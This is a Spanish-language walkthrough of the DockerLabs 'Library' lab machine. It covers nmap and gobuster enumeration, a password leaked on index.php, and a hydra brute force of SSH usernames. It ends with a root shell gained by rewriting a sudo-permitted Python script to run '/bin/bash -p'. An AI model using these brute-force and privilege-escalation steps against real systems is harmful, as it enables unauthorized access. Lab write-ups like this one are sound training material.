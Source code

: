 # Library
![library](https://github.com/TBrux/DOCKERLABS/assets/168732212/d36c54cb-c234-423e-ac6f-d3323a8a6cfd)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

Como tenemos abiertos los puertos 22 y 80 vamos a comprobar la versión y lanzar unos scripts básicos de reconocimiento para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP)..
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2aKFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Como la versión de **ssh** no permiete la enumeracíon de puertos, y en el puerto 80 encontramos la página principal de **Aparche2** vamos a hacer fuzzing a la página y ver si encontramos alguna ruta interesante.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Encontramos una página **index.php**, que si la visitamos encontramos lo que parece una contraseña.

![pass](https://github.com/TBrux/DOCKERLABS/assets/168732212/7b406527-b70f-43fe-b023-e103dbc53e5e)

## Explotación.

Con esta contraseña podemos buscar si podmeos entrar por fuerza bruta por el puerto **ssh** (22).
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
```
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-26 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```
Ya tenemos un usuario **carlos** y passsword **JIFGHDS87GYDFIGD**, por lo que nos conectamos por ssh.
```bash
❯ ssh carlos@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:Hvih5sjfx4Qwfp0rb0aWHkFvIxZbFo+cyOaoqbCHXSI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
carlos@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@fa0a812dce21:~$ 
```

## Escalada de privilegios.
Probamos a ver si encontramos algún archivo que podemos ejecutar con el usuario **carlos** pero con privilegios de **root**.
```bash
carlos@fa0a812dce21:~$ sudo -l
Matching Defaults entries for carlos on fa0a812dce21:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on fa0a812dce21:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
```
carlos@fa0a812dce21:/opt$ ll
total 12
drwxr-xr-x 1 carlos root 4096 May 26 10:20 ./
drwxr-xr-x 1 root   root 4096 May 26 10:04 ../
-r-xr--r-- 1 carlos root  272 May  7 15:19 script.py
```
Como tenemos permisos de ese fichero podemos elimiar este fichero llamado **script.py** y crear otro para que nos lance una bash cuando lo ejecutemos, así como lo ejecutamos como **root**, ya tenemos control total.
```python
  GNU nano 7.2                                                                                                     script.py *                                                                                                             
import os

os.system('/bin/bash -p')
```
```bash
sudo -u root /usr/bin/python3 /opt/script.py 
```
```
carlos@fa0a812dce21:/opt$ sudo -u root /usr/bin/python3 /opt/script.py 
root@fa0a812dce21:/opt# whoami
root
```



